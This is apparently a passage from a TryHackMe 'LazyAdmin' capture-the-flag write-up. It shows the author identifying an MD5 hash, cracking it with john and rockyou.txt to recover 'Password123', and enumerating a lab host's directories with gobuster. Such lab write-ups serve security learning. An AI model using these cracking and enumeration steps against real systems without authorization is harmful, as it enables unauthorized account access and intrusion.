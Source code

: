 Lets check what kind of `hash` we got here and try to crack it
I use `hash_id` via `Python`:

```bash
┌──(admin㉿PREDATOR-01)-[~/Desktop/thm/lazyadmin]
└─$ python3 ~/Desktop/thm/hash-id.py
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 42f749ade7f9e195bf475f37a44cafcb

Possible Hashs:
[+] MD5

```

Okay `MD5`, lets try it with `rockyou.txt` and `john`:

```bash 

┌──(admin㉿PREDATOR-01)-[~/Desktop/thm/lazyadmin]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt manager_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=24
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)
1g 0:00:00:00 DONE (2024-10-26 18:08) 50.00g/s 1689Kp/s 1689Kc/s 1689KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.

```


After using a bigger `wordlist` I found the `login-page`:

```bash

└─$ gobuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt dir -u 10.10.137.66/content -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.66/content
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://10.10.137.66/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.137.66/content/js/]
```